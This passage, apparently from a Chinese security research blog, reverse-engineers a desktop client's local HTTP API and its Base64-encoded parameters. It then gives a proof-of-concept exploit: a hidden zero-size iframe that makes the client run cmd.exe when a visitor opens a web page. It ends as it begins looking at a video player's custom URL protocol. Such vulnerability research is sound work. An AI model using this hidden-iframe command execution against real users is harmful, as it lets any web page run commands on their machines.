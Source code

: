 如下将整段数据罗列出来，看着与Base64解码所需要的解码表是一致的，所以此处极有可能就是Base64解码操作，将我们的输入的字符串`cmd.exe`进行解码，最终就变成了乱码。

我们可以将`cmd.exe`字符串进行Base64解码，发现结果确实为我们之前所看到的乱码内容：

[![](assets/1703487068-202f2d0eb4496d54d16849c9043f04e3.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16681461174700.jpg)

最终我们也就确定了这里的请求参数值是需要先进行Base64编码之后再带入请求的。因此我们可以构建出如下Exploit，当安装了该客户端的应用打开Exp代码对应页面时，即可以执行我们想要的命令。

```html
<iframe src="http://127.0.0.1:38230/api_install?file=Y21kLmV4ZQ==&param=L2sgbm90ZXBhZA==" width="0px" height="0px">
```

[![](assets/1703487068-c652d56e9c13521c17c8d46aa18b0a9b.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028770589143.jpg)

##### 某视频软件客户端

通过URLProtocolView找到视频软件客户端注册的伪协议：`xxplayer://`，通过字符串定位程序伪协议的处理功能点，也可以知道有哪些的伪协议路由。

[![](assets/1703487068-54eb7f25cb263a7310e5087a6dccc432.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/17028774570110.jpg)
